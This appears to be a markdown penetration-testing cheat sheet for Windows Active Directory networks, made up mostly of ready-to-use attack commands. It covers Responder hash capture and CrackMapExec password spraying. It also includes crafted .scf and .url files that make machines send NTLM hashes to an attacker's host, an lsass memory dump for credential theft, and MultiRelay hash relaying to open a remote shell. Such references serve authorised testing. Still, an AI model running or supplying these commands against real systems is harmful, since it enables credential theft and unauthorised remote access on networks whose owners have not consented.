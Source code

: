## Getting Creds
* `responder -I eth0 -wrf` _Start responder on eth0. Listen for netbios, and wpad_
* `crackmapexec smb {ip} -u {users.txt} -p {password}` _spray all user accounts in users.txt with a single popular password_

```
[Shell]
Command=1
IconFile=\\{attacker ip}\whatever.ico
[Taskbar]
Command=ToggleDesktop
```
_Example index.scf file that can force any machine that views a share to send hash to attackers responder_

```
[InternetShortcut]
URL=file://{attacker ip}/@whatever
```
_Example .url file that when clicked will send hash to attackers responder_

* `smbclient \\\\{ip}\\{share name} -U {domain}/{user}` _connect to smb share with valid creds_
* `put /{path}/index.scf ./index.scf` _upload malicous scf file to root of connected smb share_
* [kerberoast](https://room362.com/post/2016/kerberoast-pt1/) _stealing crackable tickets from AD using kerberoasting. htb machine [Active](https://0xrick.github.io/hack-the-box/active/) is an example of this_
* `rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump “<lsass pid> lsass.dmp full”` _Dump the lsass process to a file so it can be transfered to attacked for mimikatz.  Useful after forcing clear text lsass creds.  See tutorial page_
* [lsassy](https://github.com/Hackndo/lsassy) _Remotely dump secrets from lsass process_

## Enumeration
* `crackmapexec smb {ip range} -u {username} -p {password}` _scan an ip or range with valid creds to see where it's an admin or at least a valid user_
* `crackmapexec smb {ip range} -u {username} -p {password} --shares` _enumerate shares that user hass access to_
* `/usr/share/responder/tools/RunFinger.py -i {ip/mask}` _scan for machines with smb signing off so hashes can be passed instead of cracked_
* `crackmapexec smb {ip range} -u {username} -H {hash} --local-auth` _Check an ip range for access using a local admin account and its uncracked hash.  SMB singing must be disabled on the target_
* [bloodhound](https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/) _Use to map a path to domain admin.  [unofficial docker image](https://github.com/belane/docker-bloodhound)_

## Remote Commands
* `crackmapexec smb {ip range} -u {username} -p {password} -x {cmd}`  _run command on remote machine using valid creds_
* `/usr/share/responder/tools/MultiRelay.py -t {ip} -u ALL` _Responder must be running with smb and http off.  This will listen for admin hashes and try to relay them to the specified ip to spawn a remote shell.  SMB signing must be disabled on the target [some instructions here](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)_
